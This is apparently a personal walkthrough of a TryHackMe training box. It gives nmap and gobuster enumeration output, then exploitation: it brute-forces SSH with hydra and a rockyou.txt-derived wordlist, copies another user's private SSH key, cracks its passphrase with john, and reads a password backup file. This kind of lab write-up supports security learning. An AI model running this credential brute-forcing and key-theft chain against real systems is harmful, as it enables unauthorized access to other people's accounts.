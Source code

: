 Enumeration
===========

Nmap
----

    nmap -sS -A -T4 -oN nmap.log -vv 10.10.15.44

### Result

    22/tcp   open  ssh         syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
    80/tcp   open  http        syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    139/tcp  open  netbios-ssn syn-ack ttl 61 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
    445/tcp  open  netbios-ssn syn-ack ttl 61 Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
    8009/tcp open  ajp13?      syn-ack ttl 61
    8080/tcp open  http-proxy  syn-ack ttl 61
    |_http-title: Apache Tomcat/9.0.7

    | nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
    | Names:
    |   BASIC2<00>           Flags: <unique><active>
    |   BASIC2<03>           Flags: <unique><active>
    |   BASIC2<20>           Flags: <unique><active>
    |   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
    |   WORKGROUP<00>        Flags: <group><active>
    |   WORKGROUP<1d>        Flags: <unique><active>
    |   WORKGROUP<1e>        Flags: <group><active>
    | smb-os-discovery:
    |   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
    |   Computer name: basic2
    |   NetBIOS computer name: BASIC2\x00
    |   Domain name: \x00
    |   FQDN: basic2
    |_  System time: 2020-10-05T03:26:38-04:00
    | smb-security-mode:
    |   account_used: guest
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    | smb2-security-mode:
    |   2.02:
    |_    Message signing enabled but not required

#### Run nmap again against 445 with the script smb-enum-shares

    smb-enum-shares:
    |   account_used: guest
    |   \\10.10.20.248\Anonymous:
    |     Type: STYPE_DISKTREE
    |     Comment:
    |     Users: 0
    |     Max Users: <unlimited>
    |     Path: C:\samba\anonymous
    |     Anonymous access: READ/WRITE
    |     Current user access: READ/WRITE
    |   \\10.10.20.248\IPC$:
    |     Type: STYPE_IPC_HIDDEN
    |     Comment: IPC Service (Samba Server 4.3.11-Ubuntu)
    |     Users: 1
    |     Max Users: <unlimited>
    |     Path: C:\tmp
    |     Anonymous access: READ/WRITE
    |_    Current user access: READ/WRITE

Gobuster
--------

### Port 80

    /.hta (Status: 403)
    /.htaccess (Status: 403)
    /.htpasswd (Status: 403)
    /development (Status: 301)
    /index.html (Status: 200)
    /server-status (Status: 403)

### Port 8080

    /docs (Status: 302)
    /examples (Status: 302)
    /favicon.ico (Status: 200)
    /host-manager (Status: 302)
    /manager (Status: 302)

Zap
---

### Notes

-   `conf/tomcat-users.xml` - possible contains user:password
-   `user username="tomcat" password="s3cret" roles="manager-gui"` -
    possible login
-   admin-gui and admin-script replaced the admin role
-   Apache struts 2.5.12
-   /etc/shadow weak password hash
-   j\* - start of a possible username and as mentioned above, possibly
    a weak password
-   k\* - start of a possible username

Exploitation
============

Metasploit
----------

I did briefly try to use a metasploit module targetting sambda, but my
lack of knowledge and experience had me give up and reference the
TryHackMe tasks which mentioned brute-forcing, so I was pretty sure this
wasn't the intended attack vector.

Brute forcing
-------------

### SSH

Let's try brute-forcing the username and password for SSH First I
filtered and sorted the rockyou.txt wordlist by length and lines
starting with j and only containing username valid characters:

    grep "^j" rockyou.txt | grep "^[a-Z0-9\-\_]*$" | perl -e 'print sort { length($a) <=> length($b) } <>' > j-names.txt

Is there a better way to do it? Probably. Anyways, now to run hydra:

    hydra -L j-names.txt -P rockyou.txt 10.10.20.248 -t 4 ssh

After ages we finally find the username and password pair. Next is to
ssh into the machine and find an attack vector.

    ssh jay@<ip>
    jay@basic2:~$ ls -ahl /home/kay/ # Find .ssh/id_rsa file, copy contents

Now with the contents of id\_rsa, we use john the ripper to get the
password:

    ssh2john id_rsa > id_rsa.hash
    john --wordlist=rockyou.txt id_rsa.hash

Now that we have the password to the ssh key, we ssh in and get the
password.bak:

    ssh -i id_rsa kay@<ip>
    kay@basic2:~$ cat /home/kay/password.bak
